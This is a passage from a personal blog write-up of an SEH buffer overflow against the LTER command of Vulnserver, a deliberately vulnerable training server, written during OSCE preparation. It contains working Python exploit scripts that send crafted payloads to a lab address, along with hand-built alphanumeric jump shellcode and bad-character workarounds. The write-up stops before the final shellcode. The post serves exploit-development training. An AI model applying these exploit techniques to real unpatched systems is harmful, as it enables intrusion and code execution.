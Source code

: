 ```yaml
---
title: Vulnserver LTER SEH buffer overflow
tags: OSCE
key: 20190801
comments: true
---
```


So one day, I was preparing for OSCE, I fire up vulnserver and try to mess around with one of their vulnerable command, LTER that I discovered by spike. Little did I know, this one is much harder than I thought.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-1.png"/>

When the POC crash, we can see that EIP is not overwritten, however, if we look at the SEH chain, we can find that it got overwritten to our payload. So, this is going to be a SEH buffer overflow.

We use pattern create and !mona findmsp to get the location of nSEH and SEH

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-2.png"/>

nSEH at 3515 and SEH at 3519, looks good. However, we only get 52 bytes after that, which clearly is not enough for a reverse shell. Looks like a job for egghunter?

With the help of !mona seh, we get the address for a pop pop retn instruction.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-3.png"/>

Here, I choose 0x6250120B which I got lucky here, you will know why later.

Then, I add a jmp short to jump over the address after the redirection to nSEH and here's where the nightmare began. 
```python
#!/usr/bin/python
import socket
import sys
#6250120B
RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3515
string += "\xEB\x0B\x90\x90" + "\x0B\x12\x50\x62"
string += "\x46" * (length -len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-4.png"/>

See where our short jump should be? \xEB got converted to \x6C and \x90 got converted to \x11. Since like both of them are bad characters. That's not a big deal, I can use a conditional jump instead.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-5.png"/>

Here I use \x77 to make a conditional jump when both CF and ZF are equal 0. The jump is working quite well. Before we put our shellcode inside, lets check for bad characters.

We all knew that \xEB and \x90 are bad characters, how about the others? The truth is...

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-6.png"/>

The truth is every single bytes after \x7F got converted and we cannot use them. Not even our egghunter cause after we encode it, the size will be larger that the space we have. We will need to find some way to get more space. 

How about we jump to the middle of our payload? it's possible but we can't just put \xFF in our payload and make the jump. To solve this problem, we will redirect where our ESP is pointing at and use push to push the shellcode we need. Which result in these shellcode.
```python
#!/usr/bin/python
import socket
import sys

jump = "\x60\x54\x58\x54\x5B\x66\x05\x79\x13\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x69\x03\x50"
jump2 = "\x53\x58\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x50\x5F\x04\x02\x50\x59\x66\x05\x77\x07\x66\x05\x41\x06\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x7D\x65\x50"

RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3
string += "\x53\x5C" + "\x46" * (3515-3-2-64)
string += jump2
string += "\x46" * (64-len(jump2))
string +="\x42\x42\x77\x04" + "\x0B\x12\x50\x62"
string += jump
string += "\x46" *(length - len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-7.png"/>

The first jump will redirect ESP to the end of the payload so that we can write some shellcode at the end. The distance between ESP and the end of the payload is around 0x1379 so we use eax to do the calculation and ebx to store the original value of esp.

P.S. you do not need the PUSHAD, I am just lazy to recalculate all the stuff to align ESP. just minus 32 bytes if you want to get rid of the PUSHAD

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-8.png"/>

This jump help us to create more space so that we can make a further jump to our shellcode.

The second jump looks like this.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-9.png"/>
